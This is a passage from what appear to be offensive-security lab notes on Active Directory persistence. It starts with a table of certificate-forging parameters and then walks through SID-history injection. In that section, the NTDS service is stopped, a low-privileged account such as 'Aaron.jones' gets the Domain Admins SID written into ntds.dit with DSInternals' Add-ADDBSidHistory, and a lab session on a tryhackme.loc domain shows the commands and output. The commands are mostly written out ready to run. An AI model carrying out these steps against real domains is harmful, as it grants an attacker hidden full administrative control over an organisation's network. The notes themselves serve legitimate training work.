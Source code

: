| `CaCertPath` | The path to the `.pfx` file |
| -- | -- |
| `CaCertPassword` | The password with which the `.pfx` file is encrypted |
| `Subkect` | The subject or common name of the certificate, when used for User authentication this has no use. |
| `SubjectAltName` |  |




#### SID History
SID history is used for migration from one `AD` to another, to be able to make a new user, but add the SID of the previous user to retain their privileges. This also works with groups, so a regular user with an SID history of the `Domain Admins` group, will have full `DA` privileges.
To check the current user's SID history:
```
Get-ADUser USERNAME -properties sidhistory,memberof
```
To get the SID of the `Domain Admins` group:
```
Get-ADGroup "Domain Admins"
```

Then, the NTDS needs to be stopped and patched with the extra `SID` history appended to the target user, before being started back up:
The tool used is [DSInternals](https://github.com/MichaelGrafnetter/DSInternals/blob/master/Documentation/PowerShell/Add-ADDBSidHistory.md)

```
Stop-Service -Name ntds -force
Add-ADDBSidHistory -SamAccountName 'username of our low-priveleged AD account' -SidHistory 'SID to add to SID History' -DatabasePath C:\Windows\NTDS\ntds.dit 
Start-Service -Name ntds
```

###### Example exploiation
```
PS C:\Users\Administrator\persist> Get-ADGroup "Domain Admins"                                                                                                                                                                                            DistinguishedName : CN=Domain Admins,CN=Users,DC=za,DC=tryhackme,DC=loc                                                                                                                                                                                   GroupCategory     : Security                                                                                                                                                                                                                              GroupScope        : Global                                                                                                                                                                                                                                Name              : Domain Admins                                                                                                                                                                                                                         ObjectClass       : group                                                                                                                                                                                                                                 ObjectGUID        : 3a8e1409-c578-45d1-9bb7-e15138f1a922                                                                                                                                                                                                  SamAccountName    : Domain Admins                                                                                                                                                                                                                         SID               : S-1-5-21-3885271727-2693558621-2658995185-512

PS C:\Users\Administrator\persist> get-ADUser -filter *
PS C:\Users\Administrator\persist> Add-ADDBSidHistory -SamAccountName 'Aaron.jones' -SidHistory 'S-1-5-21-3885271727-2693558621-2658995185-512' -DatabasePath C:\Windows\NTDS\ntds.dit
PS C:\Users\Administrator\persist> Start-Service -Name ntds -force

```
